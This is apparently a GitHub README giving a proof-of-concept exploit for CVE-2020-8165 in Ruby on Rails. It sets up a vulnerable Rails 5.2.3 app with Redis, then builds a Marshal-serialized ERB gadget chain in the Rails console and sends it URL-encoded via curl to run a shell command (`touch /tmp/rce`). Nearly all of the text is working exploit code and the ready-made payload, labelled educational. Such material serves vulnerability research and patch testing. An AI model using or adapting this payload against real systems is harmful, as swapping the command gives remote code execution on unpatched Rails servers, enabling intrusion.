

## CVE-2020-8165 (Ruby on Rails)

For educational purposes only.

See Reference for the details.



## Environment
Ruby: 2.6.3

Rails: 5.2.3

## Run
```
$ git clone https://github.com/masahiro331/CVE-2020-8165.git
$ bundle install --path vendor/bundle
$ bundle exec rails db:migrate
$ bundle exec rails s

# use redis
$ docker run -d -p 6379:6379 redis
```

## Exploit
```
$ bundle exec rails console

irb(main):> code = '`touch /tmp/rce`'
irb(main):> erb = ERB.allocate
irb(main):> erb.instance_variable_set :@src, code
irb(main):> erb.instance_variable_set :@filename, "1"
irb(main):> erb.instance_variable_set :@lineno, 1
irb(main):> payload Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
irb(main):>
irb(main):> puts "Payload"
irb(main):> require 'uri'
irb(main):> puts URI.encode_www_form(payload: payload)

$ curl 'localhost:3000/users?new=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T'
$ curl 'localhost:3000/users?new=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T'

Please 'curl' twice.
```

## References
https://groups.google.com/forum/#!topic/ruby-security-ann/OEWeyjD7NHY

